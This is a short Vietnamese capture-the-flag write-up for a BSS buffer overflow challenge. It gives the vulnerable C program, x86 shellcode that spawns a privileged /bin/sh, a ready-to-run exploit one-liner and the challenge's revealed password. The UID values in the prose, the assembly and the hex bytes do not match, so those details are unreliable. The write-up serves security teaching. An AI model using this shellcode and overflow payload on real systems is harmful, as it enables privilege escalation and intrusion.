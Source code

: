# ELF x86 - BSS buffer overflow

```c
#include <stdio.h>
#include <stdlib.h>
 
char username[512] = {1};
void (*_atexit)(int) =  exit;
 
void cp_username(char *name, const char *arg)
{
  while((*(name++) = *(arg++)));
  *name = 0;
}
 
int main(int argc, char **argv)
{
  if(argc != 2)
    {
      printf("[-] Usage : %s <username>\n", argv[0]);
      exit(0);
    }
   
  cp_username(username, argv[1]);
  printf("[+] Running program with username : %s\n", username);
   
  _atexit(0);
  return 0;
}

```

Đây là một bài bss overflow, nhưng nó chả có ý nghĩa gì cả. Biến `_atexit` chứa địa chỉ một hàm và được gọi lúc sau tương tự với ta ghi đè return address. Ta dùng lỗi buffer overflow ở `cp_username` để ghi đè lên biến `_atexit` và nhảy về vùng shellcode của ta ghi ở mảng `username`.

Dùng gdb tìm địa chỉ của biến `username` và `_atexit`, `_atexit = username + 512`

![](images/2.png)

Viết shellcode gọi `setreuid(1210, 1110)` và `system(“/bin/sh”, 0, 0)`

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 1207
	mov cx, 1107
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Exploit:

```shell
./ch7 $(python2 -c "print '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x46\x66\xbb\xb7\x04\x66\xb9\xb7\x04\xcd\x80\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80' + 'A' * (512 - 39) + '\x40\xa0\x04\x08'")
```

![](images/4.png)

pass là: `aod8r2f!q:;oe`
